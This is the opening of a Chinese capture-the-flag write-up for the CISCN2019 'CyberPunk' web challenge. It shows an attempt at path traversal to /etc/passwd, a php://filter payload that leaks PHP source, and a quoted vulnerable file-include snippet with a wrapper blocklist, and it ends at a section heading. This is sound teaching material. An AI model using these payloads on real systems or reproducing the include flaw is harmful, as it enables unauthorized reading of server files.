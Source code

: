 # [CISCN2019 华北赛区 Day1 Web5]CyberPunk 二次报错注入

buu上 做点

首先就是打开环境 开始信息收集



<img src="https://i-blog.csdnimg.cn/blog_migrate/e85ea042daec0168c5dde4cca2c53cc8.png" alt="" style="max-height:148px; box-sizing:content-box;" />


发现源代码中存在?file

提示我们多半是包含

我原本去试了试 ../../etc/passwd

失败了 直接伪协议上吧

```cobol
php://filter/read=convert.base64-encode/resource=index.php
 
 
confirm.php
 
search.php
 
change.php
 
delete.php
```

我们通过伪协议全部读取

我们提取关键信息

## index.php

```cobol
ini_set('open_basedir', '/var/www/html/');
 
// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

## confirm.php
